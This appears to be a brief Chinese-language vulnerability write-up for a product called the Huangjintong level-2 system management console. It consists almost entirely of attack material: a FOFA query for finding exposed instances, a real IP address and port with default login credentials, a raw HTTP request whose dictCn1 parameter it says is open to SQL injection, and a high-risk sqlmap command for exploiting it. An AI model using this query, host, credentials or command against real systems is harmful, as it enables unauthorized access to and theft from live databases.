

fofa:
```plane
title="黄金通二级系统三代管理端"
```
测试账号
https://113.105.126.146:8900/  admin/123456

报文

```
POST /paraframework/queryTsDictionaryType.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=fhbgfoz89o5n1jf31529d0xhp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 44
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/paraframework/tsDictionaryTypeInfo.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&dictEn1=SEATTYPE&dictCn1=席位代码

```
参数dictCn1存在SQL注入

sqlmap命
```plane
python sqlmap.py -r 1.txt --force-ssl --level 5 --risk 3 --dbms Oracle
```



